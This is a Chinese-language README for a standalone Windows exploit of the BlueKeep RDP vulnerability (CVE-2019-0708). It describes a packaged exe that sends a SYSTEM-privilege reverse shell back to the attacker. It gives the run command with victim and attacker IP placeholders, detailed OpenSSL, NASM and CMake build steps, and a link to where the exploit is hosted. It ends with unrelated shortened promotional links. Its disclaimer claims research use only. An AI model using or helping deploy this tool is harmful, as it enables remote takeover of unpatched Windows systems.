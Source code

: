 # CVE-2019-0708-EXP-Windows-Version

#### 申明

作者poc仅供研究目的,如果读者利用本poc从事其他行为,与本人无关

#### 目录
[toc]

#### 介绍

CVE-2019-0708-EXP-Windows版单文件exe运行,无需linux,python,ruby等,运行后直接在当前控制台反弹System权限Shell

编译采用全静态库模式内联所有dll,集成netcat和openssl,支持进度条显示,shell回显操作

### 复现环境 ###
1. 被攻击者操作系统Victim:Windows 7 sp1 x64位操作系统
2. 攻击者操作系统Attacker:Windows 10 x64位操作系统
3. 编译环境Visual Studio 2013

#### 使用说明

1. 进入CVE-2019-0708-EXP-Release目录
3. 运行wfreerdp.exe /v:Victim_IP /l:Attacker_IP,如wfreerdp.exe /v:10.120.1.160 /l:10.120.1.17

#### 安装教程

1. 复制FreeRDP-master项目至E:\git\KernelResearch\FreeRDP-master\
2. 安装Openssl编译环境,或者直接解压openssl.7z至C:\openssl\使用已编译好的Openssl环境
3. 安装Nasm编译环境
5. 以管理员身份安装cmake-3.15.3-win64-x64.msi
6. 添加C:\Program Files\CMake\bin至path环境变量
5. 重启计算机
8. 运行"C:\Program Files\CMake\bin\cmake.exe" E:\git\KernelResearch\FreeRDP-master\CMakeCache.txt
9. 编译项目,如果发现仍然缺少文件,可以从FreeRDP-master-restore.7z还原

##### Openssl编译环境安装教程
1. 解压openssl-1.0.2s.tar.gz至C:\openssl\
2. 安装ActivePerl-5.28.1.0000-MSWin32-x64-fde9aa8a.msi
3. 添加C:\Perl64\bin至path环境变量
4. 打开VS2013 x64 本机工具命令提示,在开始菜单中可以找到
5. 运行 perl Configure VC-WIN64A
6. 运行 cd /d C:\openssl\
7. 运行 ms\do_win64a 
8. 接下来开始编译,可以采用以下几种模式,exp中采用的是静态库模式:
编译OpenSSL动态库：nmake -f ms\ntdll.mak
编译OpenSSL静态库：nmake -f ms\nt.mak
测试OpenSSL动态库：nmake -f ms\ntdll.mak test
测试OpenSSL静态库：nmake -f ms\nt.mak test
安装OpenSSL动态库：nmake -f ms\ntdll.mak install
安装OpenSSL静态库：nmake -f ms\nt.mak install
清除上次OpenSSL动态库的编译，以便重新编译：nmake -f ms\ntdll.mak clean
清除上次OpenSSL静态库的编译，以便重新编译：nmake -f ms\nt.mak clean
9. 完成后自己去out32下找libeay32.lib和ssleay32.lib文件复制到C:\openssl\lib\

##### Nasm编译环境安装教程

1. 以管理员身份安装nasm-2.14.02-installer-x64.exe
2. 添加C:\Program Files\NASM至path环境变量
3. 解压nasmBuildCustomizations.rar其中3个文件至C:\Program Files (x86)\MSBuild\Microsoft.Cpp\v4.0\V120\BuildCustomizations\
4. 选中client->common->freerdp-client工程目录右击->"生成依赖项"->"生成自定义"，然后勾选nasm这一项(注意不是masm)
5. 如果在freerdp-client工程中选择任意asm文件,右键菜单出现编译选项,即表示Nasm编译环境安装成功

#### 运行效果

![点击查看大图](https://ftp.bmp.ovh/imgs/2020/01/b7f6ac6c6f9f20d6.png)

#### 项目托管

[我的poc地址](https://gitee.com/cbwang505/CVE-2019-0708-EXP-Windows "poc")


#### 参与贡献

作者来自ZheJiang Guoli Security Technology,邮箱cbwang505@hotmail.com

 # 良心友情链接

[腾讯QQ群快速检索](http://u.720life.cn/s/8cf73f7c)

[软件免费开发论坛](http://u.720life.cn/s/bbb01dc0)